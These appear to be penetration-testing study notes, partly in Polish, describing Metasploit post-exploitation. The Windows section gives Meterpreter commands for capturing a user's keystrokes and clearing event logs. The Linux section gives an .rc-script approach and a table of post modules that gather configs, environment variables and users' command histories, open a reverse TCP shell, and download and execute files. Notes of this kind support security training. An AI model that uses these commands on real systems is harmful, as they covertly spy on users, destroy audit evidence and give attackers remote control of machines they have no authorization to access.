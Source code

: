 ## Windows Keylogging

```bash
# meterpreter
pgrep explorer # keystroke capture nie zawsze działa z innymi procesami
migrate 1234
keyscan_start # zacznij przechwytywanie
keyscan_dump # pokaż co przechwycono
keyscan_stop # koniec przechwytywania, nie zapisuje sie nigdzie
```

## Clearing Windows Event Logs

Event logs :

- Application logs: Stores application/program events like startups, crashes etc.
- System logs: Stores system events like startups, reboots etc.
- Security logs: Stores security events like password changes, authentication failures etc

Event logs can be accessed via the **Event Viewer on Windows**

```bash
clearev
```

# Linux Postexploitation

## msf>search post/linux/(gather)...

zrobic szybki skrypt .rc

1. setg session 1
1. use ...skrypt
1. dodac exploit po każdym skrypcie
   ```bash
   use post/linux/gather/enum_configs
   exploit
   use post/multi/gather/env
   exploit
   ...
   ```

|                                                                                                                       |                                        |
| --------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| Enumerate system configuration                                                                                        | `post/linux/gather/enum_configs`       |
| enumerate operating system environment variabless                                                                     | `post/multi/gather/env`                |
| Enumerate network configuration                                                                                       | `post/linux/gather/enum_network`       |
| check protection systems                                                                                              | `post/linux/gather/enum_protections`   |
| gather system and user information                                                                                    | `post/linux/gather/enum_system`        |
| container check                                                                                                       | `post/linux/gather/checkcontainer`     |
| VM check                                                                                                              | `post/linux/gather/checkvm`            |
| Enumerate all users history of commands                                                                               | `post/linux/gather/enum_users_history` |
| create a Reverse TCP Shell on the target system using the system's own scripting environments installed on the target | `post/multi/manage/system_session`     |
| downloads and runs a file with bash                                                                                   | `post/linux/manage/download_exec`      |
| **...**                                                                                                               | **...**                                |
